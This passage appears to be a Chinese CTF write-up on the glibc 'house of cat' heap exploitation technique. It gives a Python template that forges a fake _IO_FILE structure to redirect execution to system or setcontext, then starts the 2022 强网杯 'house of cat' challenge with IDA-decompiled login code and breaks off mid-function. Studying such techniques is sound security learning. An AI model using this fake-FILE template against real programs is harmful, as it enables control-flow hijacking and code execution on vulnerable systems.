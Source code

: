 检测绕过

其实就是在 \_IO\_wfile\_seekoff 中

```plain
(fp->_wide_data->_IO_read_base== fp->_wide_data->_IO_read_end) && (fp->_wide_data->_IO_write_base== fp->_wide_data->_IO_write_ptr)
```

在catf1y师傅的原文里有构造模版

如下：

```plain
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```

call\_addr：setcontext 或 system 的地址

\_IO\_backup\_base：执行函数时的rdx

\_flags：执行函数时的rdi

注：若FSOP需将vtable改为IO\_wfile\_jumps+0x30

# 例题：2022强网杯 house of cat

## ida分析

有一个登录模块

```plain
__int64 __fastcall sub_1DF3(__int64 a1)
{
  __int64 result; // rax
  unsigned int v2; // eax
  char *v3; // [rsp+18h] [rbp-8h]

  if ( *(a1 + 8) == 1 && !strcmp(*(a1 + 16), "admin") )
    dword_4040[0] = 1;
  result = *(a1 + 8);
  if ( result == 3 )
  {
    result = strtok(*(a1 + 16), "$");
    v3 = result;
    if ( result )
    {
      result = dword_4014;
      if ( *v3 == dword_4014 )
      {
```